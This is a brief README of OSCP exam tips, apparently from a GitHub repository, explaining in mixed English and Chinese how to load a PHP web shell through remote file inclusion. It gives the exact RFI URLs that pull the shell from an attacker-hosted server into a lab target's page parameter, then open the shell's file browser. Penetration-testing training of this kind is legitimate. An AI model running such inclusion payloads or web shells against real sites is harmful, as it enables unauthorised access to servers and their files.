 # OSCP
some tips for oscp

# big-shell.php
Usage
RFI:
- 1. `http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，then input the passwd `pass`
- 2. 这时候因为是 RFI 包含的此大马，所以页面会自动重载为section.php，需要手动再次进入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt`，然后就可以看到大马的页面
- 3. 进入fbrowser 需要手动输入：`http://10.11.1.35/section.php?page=http://192.168.119.189:8000/test.txt&act=fbrowser`
